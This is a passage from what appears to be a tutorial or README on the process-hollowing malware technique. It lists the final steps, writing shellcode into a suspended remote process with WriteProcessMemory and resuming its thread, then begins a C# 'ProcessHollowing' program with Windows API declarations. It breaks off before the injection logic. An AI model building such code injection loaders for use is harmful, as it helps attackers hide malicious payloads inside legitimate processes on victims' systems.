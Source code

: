 4. Use `WriteProcessMemory` to overwrite the original content with our shellcode.

5. Let the execution of the thread inside the remote process continue.

```csharp
using System;
using System.Runtime.InteropServices;

namespace ProcessHollowing
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
        static extern bool CreateProcess(string lpApplicationName, string lpCommandLine,
    IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles,
        uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory,
            [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);

        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Ansi)]
        struct STARTUPINFO
        {
            public Int32 cb;
            public IntPtr lpReserved;
            public IntPtr lpDesktop;
            public IntPtr lpTitle;
            public Int32 dwX;
            public Int32 dwY;
            public Int32 dwXSize;
            public Int32 dwYSize;
            public Int32 dwXCountChars;
            public Int32 dwYCountChars;
            public Int32 dwFillAttribute;
            public Int32 dwFlags;
            public Int16 wShowWindow;
            public Int16 cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_INFORMATION
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public int dwProcessId;
            public int dwThreadId;
        }

        [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
        private static extern int ZwQueryInformationProcess(IntPtr hProcess,
    int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation,
        uint ProcInfoLen, ref uint retlen);

        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_BASIC_INFORMATION
        {
            public IntPtr Reserved1;
            public IntPtr PebAddress;
            public IntPtr Reserved2;
            public IntPtr Reserved3;
            public IntPtr UniquePid;
            public IntPtr MoreReserved;
        }
```